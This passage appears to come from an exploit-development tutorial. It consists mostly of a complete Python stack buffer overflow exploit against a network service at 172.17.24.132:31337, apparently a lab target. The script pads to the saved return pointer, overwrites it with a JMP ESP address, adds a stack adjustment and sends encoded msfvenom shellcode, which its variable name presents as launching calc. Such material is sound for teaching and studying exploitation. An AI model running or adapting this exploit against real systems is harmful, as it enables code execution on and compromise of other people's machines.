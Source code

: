 Replacing the `"INT 3"` code in our exploit with this `"SUB ESP,0x10"` code,
followed by our `msfvenom` shellcode, gives us the following:

```{.python .numberLines}
#!/usr/bin/env python3
import socket
import struct

RHOST = "172.17.24.132"
RPORT = 31337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

buf_totlen = 1024
offset_srp = 146

ptr_jmp_esp = 0x080414C3

sub_esp_10 = b"\x83\xec\x10"

shellcode_calc =  ""
shellcode_calc += "\xb8\x3e\x08\xbf\x9c\xdb\xdc\xd9\x74\x24"
shellcode_calc += "\xf4\x5f\x29\xc9\xb1\x31\x31\x47\x13\x03"
shellcode_calc += "\x47\x13\x83\xc7\x3a\xea\x4a\x60\xaa\x68"
shellcode_calc += "\xb4\x99\x2a\x0d\x3c\x7c\x1b\x0d\x5a\xf4"
shellcode_calc += "\x0b\xbd\x28\x58\xa7\x36\x7c\x49\x3c\x3a"
shellcode_calc += "\xa9\x7e\xf5\xf1\x8f\xb1\x06\xa9\xec\xd0"
shellcode_calc += "\x84\xb0\x20\x33\xb5\x7a\x35\x32\xf2\x67"
shellcode_calc += "\xb4\x66\xab\xec\x6b\x97\xd8\xb9\xb7\x1c"
shellcode_calc += "\x92\x2c\xb0\xc1\x62\x4e\x91\x57\xf9\x09"
shellcode_calc += "\x31\x59\x2e\x22\x78\x41\x33\x0f\x32\xfa"
shellcode_calc += "\x87\xfb\xc5\x2a\xd6\x04\x69\x13\xd7\xf6"
shellcode_calc += "\x73\x53\xdf\xe8\x01\xad\x1c\x94\x11\x6a"
shellcode_calc += "\x5f\x42\x97\x69\xc7\x01\x0f\x56\xf6\xc6"
shellcode_calc += "\xd6\x1d\xf4\xa3\x9d\x7a\x18\x35\x71\xf1"
shellcode_calc += "\x24\xbe\x74\xd6\xad\x84\x52\xf2\xf6\x5f"
shellcode_calc += "\xfa\xa3\x52\x31\x03\xb3\x3d\xee\xa1\xbf"
shellcode_calc += "\xd3\xfb\xdb\x9d\xb9\xfa\x6e\x98\x8f\xfd"
shellcode_calc += "\x70\xa3\xbf\x95\x41\x28\x50\xe1\x5d\xfb"
shellcode_calc += "\x15\x0d\xbc\x2e\x63\xa6\x19\xbb\xce\xab"
shellcode_calc += "\x99\x11\x0c\xd2\x19\x90\xec\x21\x01\xd1"
shellcode_calc += "\xe9\x6e\x85\x09\x83\xff\x60\x2e\x30\xff"
shellcode_calc += "\xa0\x4d\xd7\x93\x29\xbc\x72\x14\xcb\xc0"

buf = b""
buf += b"A"*(offset_srp - len(buf))      # padding
buf += struct.pack("<I", ptr_jmp_esp)    # SRP overwrite
buf += sub_esp_10                        # ESP points here
buf += shellcode_calc.encode()
buf += b"D"*(buf_totlen - len(buf))      # trailing padding
buf += b"\n"

s.send(buf)
```

---